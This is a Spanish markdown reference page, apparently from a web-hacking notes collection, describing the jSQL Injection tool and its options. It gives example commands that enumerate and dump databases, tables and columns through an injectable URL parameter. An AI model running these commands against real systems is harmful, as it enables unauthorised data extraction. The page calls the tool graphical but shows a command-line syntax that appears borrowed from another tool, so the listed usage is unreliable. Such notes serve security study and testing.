 ### **Hacking Web/Inyecciones SQL/jsql_injection.md**

# jSQL Injection

## Descripción

`jSQL Injection` es una herramienta de inyección SQL con una interfaz gráfica de usuario que facilita la detección y explotación de vulnerabilidades de inyección SQL en aplicaciones web. Permite realizar pruebas automatizadas y personalizadas para extraer datos de bases de datos vulnerables.

## Uso

```bash
jsql_injection [opciones]
```

### Opciones principales

- `-u URL`: Especifica la URL objetivo para la inyección SQL.
- `-p PARAM`: Define el parámetro vulnerable a probar.
- `--technique TECH`: Selecciona la técnica de inyección (boolean, time, error).
- `--dump`: Extrae el contenido de la base de datos.
- `--dbs`: Enumera las bases de datos disponibles.
- `--tables`: Enumera las tablas de una base de datos específica.
- `--columns`: Enumera las columnas de una tabla específica.
- `--threads N`: Define el número de hilos para acelerar la explotación.

## Ejemplos

- Probar una URL para inyección SQL y enumerar las bases de datos:
  
  ```bash
  jsql_injection -u "http://example.com/page.php?id=1" -p id --technique boolean --dbs
  ```

- Extraer todas las tablas de una base de datos específica:
  
  ```bash
  jsql_injection -u "http://example.com/page.php?id=1" -p id --technique boolean -D nombre_db --tables --dump
  ```

- Extraer columnas específicas de una tabla:
  
  ```bash
  jsql_injection -u "http://example.com/page.php?id=1" -p id --technique boolean -D nombre_db -T nombre_tabla --columns columna1,columna2 --dump
  ```

- Usar múltiples hilos para acelerar la explotación:
  
  ```bash
  jsql_injection -u "http://example.com/page.php?id=1" -p id --technique boolean --threads 10 --dbs
  ```
